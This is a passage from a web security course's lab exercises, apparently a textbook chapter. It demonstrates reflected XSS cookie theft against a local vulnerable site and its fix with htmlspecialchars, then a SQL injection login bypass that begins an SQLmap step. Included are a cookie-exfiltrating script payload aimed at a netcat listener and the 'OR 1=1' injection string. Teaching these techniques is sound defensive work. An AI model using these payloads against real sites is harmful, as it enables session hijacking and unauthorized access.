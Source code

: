 >Open a new non-private Firefox browser and navigate to [http://127.0.0.1/](http://127.0.0.1/). This browser session will be used to simulate the victim's activity.
>
>Log in as the admin user (username=admin and password=SuperSecret1!).
>
>In the same Firefox window where the victim is logged into the vulnerable application, open a new Firefox browser tab and paste the malicious link in the URL bar and press enter. Observe the page loads as normal. This simulates the victim clicking on the link in an email or instant message, for example.
>```
>http://127.0.0.1/home.php?version=%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F127.0.0.1%3A9001%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
>```
>
>Navigate to the attacker terminal with the `netcat` listener set up in the previous step. Observe that the received connection includes the cookie value from the victim!  The `PHPSESSID` cookie value is the session identifier used by the web application to identify logged in users. With this token, the attacker can access authenticated pages as the victim!
>#### Step 4 - Mitigate the Vulnerability
>In a Kali VM bash terminal, open the `footer.php` file in the vulnerable-site/app directory using `nano` text editor.
>```bash
>nano ~/vulnerable-site/app/home.php
>```
>Observe the last line renders the version from the supplied GET parameter without any input validation or output encoding. Update the last line by wrapping the `$_GET['version']` in the `htmlspecialchars` function. Press CTRL+X, Y for yes, and Enter to save over the exiting file.
>```php
>echo "Version: ".htmlspecialchars($_GET['version']);
>```
>Open Firefox and navigate to [http://127.0.0.1/](http://127.0.0.1/). Enter the username and password (username=daniel and password=Password123) to log into the application.
>
>Replace the previously vulnerable GET parameter "`version`" value of "`beta`" with our XSS test payload "`<script>alert('xss')</script>`" and press enter. Observe this time that the page loads without the alert popup window and instead displays the payload as raw text!
>


>[!exercise] Exercise 9.4 - SQL Injection (SQLi)
>Bypass authentication controls by exploiting a SQL injection vulnerability. Then dump the Users table from the database using `SQLmap`.
>#### Step 0 - Install Docker and Vulnerable-Site (if needed)
>This step should not be needed if Exercise 9.1 and 9.2 were already completed; otherwise, refer to Exercise 9.1 - Step 1 and 9.1 - Step 2 for instructions.
>#### Step 1 - Identify SQLi
>With the vulnerable-site running in your Kali VM, navigate to [http://127.0.0.1/](http://127.0.0.1/) and enter an incorrect username and password combination. Observe that the error message "Wrong username/password" is displayed.
>#### Step 2 - Manual SQLi Exploitation
>Return to the vulnerable-site login page. Enter the following payload as the username and password and press the submit button. Observe that the application logs us in as the administrator!
>
>`lol' OR 1=1-- -`
>Explain why this payload logged you into the application.
>#### Step 3 - Automated SQLi with SQLMap
>Return to the vulnerable-site's login page and enter any incorrect username and password. Observe the "Wrong username/password" message. Copy the URL to your clipboard to use in the `sqlmap` tool.
>
>`http://127.0.0.1/?username=lol&password=lol&version=beta 
>
>Open a bash terminal and run `sqlmap` against the URL you just copied.
>```bash

[^1]: A03 Injection; OWASP Top 10.2021; March 10th 2024; https://owasp.org/Top10/A03_2021-Injection/
[^2]: CWE - CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection') (4.14); MITRE CWE; March 10th 2024; https://cwe.mitre.org/data/definitions/77.html
[^3]: WSTG - Stable; Testing for Command Injection; OWASP Foundation; March 10th 2024; https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection
[^4]: Google Advanced Search; Google; March 10th 2024; https://www.google.com/advanced_search
[^6]: aboul3la/Sublist3r: Fast subdomains enumeration tool for penetration testers; GitHub; March 13 2024; https://github.com/aboul3la/Sublist3r